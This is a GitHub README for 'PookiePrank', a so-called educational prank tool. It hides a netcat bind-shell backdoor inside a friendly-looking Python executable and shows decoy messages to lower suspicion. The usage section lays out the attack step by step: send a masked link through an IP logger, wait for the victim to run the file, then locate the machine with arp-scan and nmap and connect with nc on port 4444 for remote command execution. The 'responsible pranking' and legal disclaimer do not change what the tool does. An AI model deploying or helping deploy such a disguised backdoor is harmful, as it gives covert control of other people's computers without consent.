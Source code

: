 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


PLEASE READ THE FULL DOCUMENTATION FOR THE BETTER UNDERSTANDING OF THE PROJECT AND HOW TO MAKE IT WORK ACTUALLY.
---

## Table of Contents
- [What Is This?](#what-is-this)
- [Features](#features)
- [Why?](#why)
- [Usage](#usage)
- [Responsible Pranking Guidelines](#responsible-pranking-guidelines)
- [Legal Disclaimer](#legal-disclaimer)
- [Future Plans](#future-plans)

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- An educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- **On target machine (Runs automatically with python script)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.

   NOTE:
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `arp` scan over the local network.
   
   - If you are on a virtual machine, perform an arp scan on your host machine.
   
   - **For Windows**
     ```bash
     arp -a
     ```
     
   - **For Linux**
     ```bash
     sudo arp-scan --localnet
     ```
     
   This will list all the IP addresses in a network and we have to find our target from this which can simply be done by an nmap scan
   
   ```bash
   nmap -p 4444 <ip_address>
   ```

  If port 4444 is open on any IP address, it may be our target machine.

  Try connecting using the Netcat command — if it’s successful, you're in.


6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy.

— *PookieSec Ops Out.*
